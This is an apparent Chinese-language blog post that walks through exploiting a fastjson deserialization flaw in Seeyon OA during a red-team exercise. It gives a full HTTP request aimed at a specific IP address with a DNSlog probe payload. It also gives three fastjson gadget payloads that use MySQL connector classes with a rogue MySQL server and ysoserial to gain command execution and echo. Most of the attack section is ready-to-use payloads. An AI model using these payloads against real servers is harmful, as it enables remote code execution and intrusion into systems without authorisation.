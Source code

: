 ```yaml
---
layout: post
title: SeeyonFastjson利用链

---
```


## 0x01  前言

前段时间刚结束一场hvv，现场遇到了这样的情况，存在seeyon的fastjson接口但是利用链不行。

后来请教wal613师傅，换了mysql connector的利用链，前提是seeyon的数据库用的是Mysql

## 0x02  接口1

```
POST /seeyon/main.do?method=changeLocale HTTP/1.1
Host: 125.35.108.68:9090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://125.35.108.68:9090/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://125.35.108.68:9090/seeyon/main.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=9845FB928E346136D2356099A6862683; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

_json_params={"@type":"java.net.Inet4Address","val":"k6suli.dnslog.cn"}
```

dnslog有回显，但是看了网上执行命令的方法，都是一直失败

参考这篇文章，http://www.hackdig.com/08/hack-439516.htm

https://github.com/fnmsd/MySQL_Fake_Server

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105151149.png)

vps上执行 python server.py，yso看了下这篇文章中师傅改的https://www.anquanke.com/post/id/203086，最后为了打回显，使用了wal613师傅改的yso

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105151234.png)

本地搭建安装的时候有这么个东西，就是后文利用链里面需要的mysql-connector

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105142552.png)

这个要装对应的jdbc驱动，比如mysql-connector-java-5.1.38-bin.jar

## 0x03利用链

### Mysql connector 5.1x

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConn  ectTo":"mysql.host","portToConnectTo":3306,"info":{"user":”user","password":”pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDese  rialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":”dbname" , "url":""}
```

### Mysql connector 6.0.2 or 6.0.3

```json
{"@type": "java.lang.AutoCloseable" ,"@type":  "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection" ,"proxy":{"connectionString":{"url":  "jdbc:mysql://localhost:3306/foo?allowLoadLocalInfile=true"}}}
```

###  Mysql connector 6.x or < 8.0.20

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnecti  on","proxy":{"@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy","connectionUrl":{ "@typ e":"com.mysql.cj.conf.url.ReplicationConnectionUrl" , "masters": [{"host":"mysql.host"}],  "slaves":[],  "properties":{"host":"mysql.host","user":"user","dbname":"dbname","password":"pass","quer  yInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserial  ize":"true"}}}}
```

## 0x04 实战场景中的回显

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152116.png)

服务端中找到回显CommonsBeanutils1Tomcat89Echo

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152204.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152358.png)

## 参考资料

https://i.blackhat.com/USA21/Wednesday-Handouts/US-21-Xing-How-I-Used-a-JSON.pdf

http://www.hackdig.com/08/hack-439516.htm

https://www.anquanke.com/post/id/203086

致远OA fastjson mysql connector 利用链  wal613

